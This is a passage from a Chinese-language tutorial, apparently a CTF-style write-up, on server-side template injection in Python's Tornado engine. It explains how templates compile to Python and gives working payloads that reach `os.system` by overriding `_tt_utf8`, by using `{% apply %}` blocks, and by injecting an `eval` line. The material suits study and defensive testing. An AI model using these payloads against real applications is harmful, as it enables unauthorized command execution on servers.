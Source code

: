 ```php
。。。。。。
```

等等，加上一些bypass

### 特殊手法

#### 利用`tornado.template`的特性

tornado中的template方法在读取模板后会将模板转化成py代码的形式，然后再通过再通过后面的genergte()把前面的模板py代码执行，也就是完成模板渲染的最后一步，写到这里我们也大概明白了整个渲染的过程

```php
模板--->模板的py代码形式---->通过genergte()执行模板的py代码--->完成渲染返回到用户界面
```

在这里我们主要利用的**模板的py代码形式----&gt;通过genergte()执行模板的py代码**这个过程。

首先我们先来查看一下这个临时代码具体是什么样子的

```php
from tornado.template import Template
Template('{{print(__loader__.get_source(1))}}').generate()
>>>>
def _tt_execute():  # <string>:0
    _tt_buffer = []  # <string>:0
    _tt_append = _tt_buffer.append  # <string>:0
    _tt_tmp = print(__loader__.get_source(1))  # <string>:1
    if isinstance(_tt_tmp, _tt_string_types): _tt_tmp = _tt_utf8(_tt_tmp)  # <string>:1
    else: _tt_tmp = _tt_utf8(str(_tt_tmp))  # <string>:1
    _tt_tmp = _tt_utf8(xhtml_escape(_tt_tmp))  # <string>:1
    _tt_append(_tt_tmp)  # <string>:1
    return _tt_utf8('').join(_tt_buffer)  # <string>:0
```

我们可以试着解释一下这个临时代码

首先这个函数`_tt_execute()`它会接收一些变量和函数，然后返回编译后的模板。这个函数的作用是将模板中的变量和表达式转化为Python代码并执行。

在这个函数中，`_tt_buffer` 是一个空列表，用于存储编译后的模板。`_tt_append` 是一个函数，用于将字符串添加到 `_tt_buffer` 中。`_tt_tmp` 是一个临时变量，用于存储模板中的表达式。

`print(__loader__.get_source(1))` 这一行代码会输出当前模板文件的源代码。然后，如果 `_tt_tmp` 是字符串类型，那么就使用 `_tt_utf8` 将其转化为 UTF-8 编码。接着，使用 `xhtml_escape` 函数将 `_tt_tmp` 转义为 HTML 实体，然后将其添加到 `_tt_buffer` 中。

最后，这个函数会使用 `_tt_utf8('').join(_tt_buffer)` 将 `_tt_buffer` 中的所有字符串连接起来，并返回编译后的模板。

我们可以注意到\_tt\_utf8这个变量名，`_tt_utf8` 是 Tornado 模板引擎中内置的一个变量名，它被用来存储模板渲染时使用的编码方式。具体来说，当模板中使用了非 ASCII 字符时，Tornado 会将模板编码成 UTF-8，并将编码后的内容保存到 `_tt_utf8` 变量中。在渲染模板时，Tornado 会使用 `_tt_utf8` 变量中保存的编码方式将编码后的内容转换成正确的 Unicode 字符串。

再回想一下上面的模板语法：**`{% set *x* = *y* %}`**：创建一个局部变量，那我是不是可以把一些函数替换到`_tt_utf8`中从而然他执行？

payload：

```php
Template('{% set _tt_utf8 = __import__("os").system %}{{"whoami"}}').generate()
>>>
desktop-bt66bud\xxx
```

执行成功，但是还是会报错的因为\_tt\_utf8不能接受int类型的字符串

借助**`{% apply%}。。。{% end %}`的变形**直接注入函数使用:

`{% apply __import__("os").system("id") %}id{% end %}`

`{% apply [__import__("os").system("id"), str][1] %}id{% end %}`：能执行命令且不会报错

还可以使用更加巧妙的方法，我们为什莫不能直接插入一行代码呢？

```php
Template('''{% set _tt_utf8 = str %}{% set xhtml_escape = str\n eval("__import__('os').system('id')") %}''').generate()
```